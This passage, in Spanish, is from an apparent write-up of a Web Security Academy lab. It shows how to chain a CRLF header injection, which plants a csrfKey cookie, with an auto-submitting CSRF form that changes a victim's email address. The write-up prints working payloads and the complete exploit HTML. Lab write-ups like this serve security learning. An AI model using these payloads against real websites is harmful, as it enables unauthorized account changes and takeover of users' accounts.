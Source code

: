 Como podemos ver, nuestro texto de busqueda se guarda en una cookie llamada **LastSearchTerm**. Ahora intentaremos crear otra cookie usando **CRLF** con el siguiente payload.

```
/?search=123%0d%0aSet-Cookie:%20aea=123
```

Entonces, al enviar la request vemos que se actualizo correctamente.

![](img23.png)

Ahora lo que haremos sera editar el payload para que podamos agregar la cookie **csrfhey** a nuerstro PoC.

Para poder setear la cookie con el csrfKey, vamos a usar una carga de imagen html en donde escribiremos nuestro payload anterior.

```
<img src="https://ac671f8a1fbe0aa1c0c95b0f00d100a3.web-security-academy.net/?search=123%0dSet-Cookie:%20csrfKey=8Ma9NEjL3RC6AG5J1hylILBq2ZBuxpeA;">
```

Luego al final necesitamos lanzar el formulario anterior con el contenido del CSRF. Para ello agregamos el evento.

```
onerror="document.forms[0].submit()"
```

Al final nuestro exploit final quedaria asi:

```
<form action="https://ac671f8a1fbe0aa1c0c95b0f00d100a3.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="a&#64;a&#46;x" />
  <input type="hidden" name="csrf" value="YdrxaD6DWJFAMk7PTXesSNYRu0k003Nj" />
  <input type="submit" value="Submit request" />
</form>
<img src="https://ac671f8a1fbe0aa1c0c95b0f00d100a3.web-security-academy.net/?search=123%0dSet-Cookie:%20csrfKey=8Ma9NEjL3RC6AG5J1hylILBq2ZBuxpeA;" onerror="document.forms[0].submit()">
```

Luego, lo subimos en el **Exploit Server** y lo enviamos a la victima.
